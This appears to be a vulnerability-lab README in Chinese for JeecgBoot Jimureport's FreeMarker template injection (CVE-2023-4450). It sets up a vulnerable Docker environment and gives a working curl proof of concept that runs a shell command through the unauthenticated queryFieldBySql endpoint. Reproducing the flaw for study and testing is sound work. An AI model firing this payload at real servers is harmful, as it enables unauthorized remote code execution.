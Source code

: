 # JeecgBoot SSTI (CVE-2023-4450)

JeecgBoot 是一个开源的低代码开发平台，Jimureport 是低代码报表组件之一

当前漏洞在 1.6.1 以下的 Jimureport 组件库中都存在. 由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生.

引用:

- <https://www.oscs1024.com/hd/MPS-4hzd-mb73>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell>

## 漏洞环境

执行如下命令启动 3.5.3 版本的 JeecgBoot 后端:

```
docker compose up -d
```

在服务启动后，可访问 `http://your-ip:8080/jeecg-boot/jmreport/list` 积木工作台页.

## 漏洞利用

通过 `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql` sql 参数传递 freemarker payload。

```bash
curl --location 'http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql' \
--header 'Content-Type: application/json' \
--data '{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}'
```

![](1.png)
